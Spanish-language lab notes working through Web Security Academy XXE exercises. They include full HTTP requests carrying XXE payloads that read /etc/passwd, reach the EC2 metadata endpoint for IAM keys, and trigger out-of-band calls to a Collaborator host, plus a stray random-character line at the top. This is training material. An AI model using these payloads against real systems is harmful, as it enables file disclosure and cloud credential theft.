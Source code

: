 [[RED TEAM]]

2|653C[8Wr=J-rN"ygd,$495$Hg&k94}

---
# Lab 1 : Exploiting XXE external entities to retrieve files

Este laboratorio tiene una característica de "Comprobar existencias" que analiza la entrada XML y devuelve cualquier valor inesperado en la respuesta. Para resolver el laboratorio, inyecte una entidad externa XML para recuperar el contenido del archivo /etc/passwd.

![[Pasted image 20230814115018.png|]]

```
POST /product/stock HTTP/2
Host: 0a5e005b047c4a7f839eb52500a40035.web-security-academy.net
Cookie: session=eKUxopFI8gCrE9jZ3wmXyq8KSuRgRP8B
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5e005b047c4a7f839eb52500a40035.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a5e005b047c4a7f839eb52500a40035.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Dnt: 1
Sec-Gpc: 1
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>
2
</productId>
<storeId>
1
</storeId>
</stockCheck>
```

![[Pasted image 20230814121015.png|1000]]

```
POST /product/stock HTTP/2
Host: 0a5e005b047c4a7f839eb52500a40035.web-security-academy.net
Cookie: session=eKUxopFI8gCrE9jZ3wmXyq8KSuRgRP8B
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5e005b047c4a7f839eb52500a40035.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 173
Origin: https://0a5e005b047c4a7f839eb52500a40035.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Dnt: 1
Sec-Gpc: 1
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
---
# Lab 2 : Exploiting XXE to perform SSRF attacks

Este laboratorio tiene una característica de "Comprobar existencias" que analiza la entrada XML y devuelve cualquier valor inesperado en la respuesta. 
El servidor de laboratorio ejecuta un punto final de metadatos EC2 (simulado) en la URL predeterminada, que es http://169.254.169.254/. 
Este punto final se puede usar para recuperar datos sobre la instancia, algunos de los cuales pueden ser confidenciales. 
Para resolver el laboratorio, aproveche la vulnerabilidad XXE para realizar un ataque SSRF que obtenga la clave de acceso secreta de IAM del servidor desde el extremo de metadatos de EC2.

![[Pasted image 20230814124020.png|1000]]

```
POST /product/stock HTTP/2
Host: 0a4300f30381a858844c05d100ba005e.web-security-academy.net
Cookie: session=xHHQ5Bygw4W73yMvI9XBqwWZqN9aizAc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a4300f30381a858844c05d100ba005e.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 176
Origin: https://0a4300f30381a858844c05d100ba005e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Dnt: 1
Sec-Gpc: 1
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>
1
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
![[Pasted image 20230814124522.png|1000]]

```
POST /product/stock HTTP/2
Host: 0a4300f30381a858844c05d100ba005e.web-security-academy.net
Cookie: session=xHHQ5Bygw4W73yMvI9XBqwWZqN9aizAc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a4300f30381a858844c05d100ba005e.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 180
Origin: https://0a4300f30381a858844c05d100ba005e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Dnt: 1
Sec-Gpc: 1
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
![[Pasted image 20230814125036.png|1000]]

![[Pasted image 20230814125142.png|1000]]

---

# Lab 3 : Blind XXE with out-of-band interaction via XML parameter entities

Este laboratorio tiene una característica de "Comprobar existencias" que analiza la entrada XML, pero no muestra ningún valor inesperado y bloquea las solicitudes que contienen entidades externas regulares. Para resolver el laboratorio, use una entidad de parámetro para hacer que el analizador XML emita una búsqueda de DNS y una solicitud HTTP a Burp Collaborator.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://iseyaezmbw57zv1uxms07rn10s6juei3.oastify.com/TESTXXE">]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```

![[Pasted image 20230815164453.png]]

![[Pasted image 20230815164943.png]]

![[Pasted image 20230815164959.png]]

---
# Lab 4 : Blind XXE with out-of-band interaction via XML parameter entities

La inyección de entidad externa XML (XXE) es una vulnerabilidad que se produce cuando una aplicación web procesa entradas XML no confiables sin la debida validación o mitigación. Un atacante puede aprovechar esta vulnerabilidad para cargar entidades XML externas, lo que podría resultar en la revelación de información confidencial del servidor, ataques de denegación de servicio o incluso la ejecución de código remoto.

En el contexto de "Blind XXE", el ataque es denominado "ciego" porque el atacante no recibe directamente la respuesta del servidor, lo que significa que no puede ver directamente la salida del ataque. En lugar de eso, el atacante explora la posibilidad de interacciones fuera de banda. Esto significa que el atacante induce al servidor a comunicarse con recursos controlados por el atacante, como un servidor web o un servicio de red, para obtener información sobre el éxito o el resultado del ataque.

La técnica de "out-of-band interaction via XML parameter entities" se refiere a la forma en que el atacante logra la interacción fuera de banda utilizando entidades de parámetros XML. Las entidades de parámetros XML son constructos en XML que permiten definir y utilizar variables para representar datos. Los atacantes pueden aprovechar estas entidades de parámetros para provocar solicitudes de red desde el servidor vulnerable hacia recursos controlados por el atacante, como servidores web, sistemas DNS o servidores FTP. Luego, el atacante puede monitorear estas interacciones fuera de banda para obtener información sobre el éxito del ataque.

